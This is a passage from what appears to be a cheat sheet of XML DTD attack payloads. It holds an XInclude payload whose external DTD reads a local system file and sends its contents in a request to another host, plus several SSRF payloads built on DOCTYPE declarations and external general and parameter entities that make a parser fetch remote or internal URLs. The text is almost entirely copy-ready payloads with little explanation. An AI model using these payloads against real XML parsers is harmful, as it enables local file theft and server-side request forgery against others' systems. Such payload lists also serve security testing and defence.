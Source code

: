 ### XInclude

```xml
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data [  
<!ENTITY % remote SYSTEM "http://publicServer.com/external_entity_attribute.dtd">  
%remote;  
]>  
<data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://192.168.2.31/&internal;" parse="text"></xi:include></data>
```
  
  
File stored on _http://publicServer.com/external_entity_attribute.dtd_  
  
```xml
<!ENTITY % payload SYSTEM "file:///sys/power/image_size">  
<!ENTITY % param1 "<!ENTITY internal '%payload;'>">  
%param1;
```

# SSRF Attacks

### DOCTYPE

```xml
<?xml version="1.0"?>  
<!DOCTYPE data SYSTEM "http://publicServer.com/" [  
<!ELEMENT data (#ANY)>  
]>  
<data>4</data>  
```

### External General Entity (Steuck, 2002)

```xml
<?xml version='1.0'?>  
<!DOCTYPE data [  
<!ELEMENT data (#ANY)>  
<!ENTITY remote SYSTEM "http://internalSystem.com/file.xml">  
]>  
<data>&remote;</data>
```

Although it is best to reference a well-formed XML file (or any text file for that matter), in order not to cause an error, it is possible with some parsers to invoke an URL without referencing a not well-formed file.  
  
[Source](http://www.securityfocus.com/archive/1/297714/2002-10-27/2002-11-02/0)  

### External Parameter Entity (Yunusov, 2013)

```xml
<?xml version='1.0'?>  
<!DOCTYPE data [  
<!ELEMENT data (#ANY)>  
<!ENTITY % remote SYSTEM "http://publicServer.com/url_invocation_parameterEntity.dtd">  
%remote;  
]>  
<data>4</data>
```
